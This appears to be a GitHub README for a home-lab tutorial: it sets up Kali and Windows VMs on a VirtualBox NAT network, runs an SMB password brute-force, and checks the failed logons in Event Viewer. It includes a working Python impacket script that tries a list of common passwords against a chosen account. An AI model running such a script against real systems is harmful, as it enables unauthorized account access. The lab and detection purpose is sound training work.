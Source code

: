 # smb-brute-force
🚨 SMB Brute Force Script with Python (Internal Network)
This project demonstrates how to launch a brute force attack using the SMB protocol within a virtual internal network. It targets a Windows machine and verifies login failures via Event Viewer logs (Event ID 4625).

📌 About the Project
This project simulates a brute force attack using Python and SMB protocol between two virtual machines on the same NAT network in VirtualBox. It sends multiple login attempts to the Windows VM and verifies failed attempts through Event Viewer.

⚠️ This is for educational purposes only. Do not run this on unauthorized systems.

📡 What is SMB?
SMB (Server Message Block) is a network protocol mainly used for sharing files, printers, and other resources in a Windows environment. It allows applications to read/write to files and request services over a network.

In this project, we exploit the SMB login mechanism by sending multiple password attempts using Python.

⚙️ Setup Instructions
1. 🖥 Create a NAT Network
Open VirtualBox > Tools > Network > NAT Networks.
📸

![image](https://github.com/user-attachments/assets/f06ff4b7-acc7-4ae7-87bb-cca64a2bf616)

![image](https://github.com/user-attachments/assets/283e0613-4033-460d-807c-f51b528c900f)





3. 🖥 Assign NAT Network to VMs
Assign the newly created NAT network to both Windows and Kali Linux VMs via Settings > Network > Adapter 1 > Attached to: NAT Network.

📸 

![image](https://github.com/user-attachments/assets/a4262543-4b56-4168-b37b-a564d8010d68)

![image](https://github.com/user-attachments/assets/7dd978a3-caaa-4396-ba41-f9f6bea7b599)



3. 🔍 Find IP Addresses
On Windows, open Command Prompt and run:

bash
Copy
Edit
ipconfig
On Kali, run:

bash
Copy
Edit
ifconfig
Write down both IPs.
Example:

Windows IP: 10.0.2.4

Kali IP: 10.0.2.5

4. 🔐 Enable SMB on Windows
Search and open Windows Defender Firewall with Advanced Security.

Go to Inbound Rules.

Enable the following:

File and Printer Sharing (SMB-In)

File and Printer Sharing (Echo Request - ICMPv4-In)

📸 Screenshot Placeholder

🐍 SMB Brute Force Script
Create a Python script (attack.py) in Kali Linux:

python
Copy
Edit
from impacket.smbconnection import SMBConnection
import time

target_ip = input("Enter target IP address: ")
username = input("Enter username to brute force: ")

passwords = [
    "password123", "123456", "admin", "letmein", "qwerty",
    "welcome", "password1", "abc123", "12345678", "admin123"
]

for i, password in enumerate(passwords, 1):
    try:
        print(f"[{i}] Trying password: {password}")
        conn = SMBConnection(target_ip, target_ip)
        conn.login(username, password)
        print(f"\n[✔] SUCCESS: Password is '{password}'")
        break
    except Exception as e:
        print(f"[✘] Failed login with: {password} - {e}")
        time.sleep(1)
else:
    print("\n[!] All 10 password attempts failed.")
Install dependencies if not already available:

bash
Copy
Edit
pip install impacket
🚀 Running the Attack
On Kali VM:

bash
Copy
Edit
nano attack.py
# Paste the code and save it
python3 attack.py
Enter:

Victim's IP (e.g., 10.0.2.4)

Username to attack (e.g., Administrator)

📸 Screenshot Placeholder

The script will attempt 10 password logins over SMB.

📑 Verifying the Attack
On Windows VM:

Open Event Viewer from search.

Navigate to:

nginx
Copy
Edit
Windows Logs > Security
Look for Event ID: 4625, which indicates logon failures.

📸 Screenshot Placeholder

If the brute force worked, you will see 10 failed logon attempts matching the passwords used in the script.

🖼️ Screenshots
Organize these screenshots in your GitHub repo:

arduino
Copy
Edit
📁 screenshots/
├── nat-network.png
├── firewall-rules.png
├── kali-script-run.png
├── event-viewer-4625.png
Embed them like:

md
Copy
Edit
![NAT Network Setup](screenshots/nat-network.png)
⚠️ Disclaimer
This script is intended for educational and ethical hacking purposes only.
Do NOT use this on systems without explicit permission.
